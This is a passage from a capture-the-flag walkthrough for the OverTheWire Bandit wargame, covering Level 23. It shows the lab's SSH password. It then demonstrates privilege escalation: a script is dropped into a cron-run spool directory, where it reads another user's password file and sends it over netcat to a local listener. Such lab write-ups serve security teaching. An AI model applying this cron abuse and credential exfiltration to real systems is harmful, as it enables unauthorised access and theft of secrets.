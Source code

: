 ```bash

```

To be clear, you just need to run:

```bash
cat /tmp/8ca319486bfbbc3663ea0fbe81326349
```

---

## Level 23

```bash
ssh bandit23@bandit.labs.overthewire.org -p 2220
Password: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
```

<details><summary>Notes from 2020</summary></details>
As of 2023, this solution has changed slightly:

The key solution here is to get a bash script to echo the password into something that is readable from another perspective. I imagine you could use a file readable by all users, but I'll use a network connection, because I know it'll work.

Open one shell as bandit23, and run:

```bash
bandit23@bandit:~$ nc -lvvp 8899
Listening on 0.0.0.0 8899
```

Open another shell as bandit23, and run:

```bash
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo || exit 1
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -rf ./$i
    fi
done
bandit23@bandit:~$ cd /var/spool/bandit24
bandit23@bandit:/var/spool/bandit24$ # you'd probably want to use `mktemp -d` if you were experimenting for real
bandit23@bandit:/var/spool/bandit24$ cat << 'EOF' > /tmp/solve23/solve23.sh
#!/bin/bash
echo -n "$(cat /etc/bandit_pass/bandit24)" | nc localhost 8899
EOF
bandit23@bandit:/var/spool/bandit24$ chmod +x /tmp/solve23/solve23.sh
bandit23@bandit:/var/spool/bandit24$ cp /tmp/solve23/solve23.sh foo
```
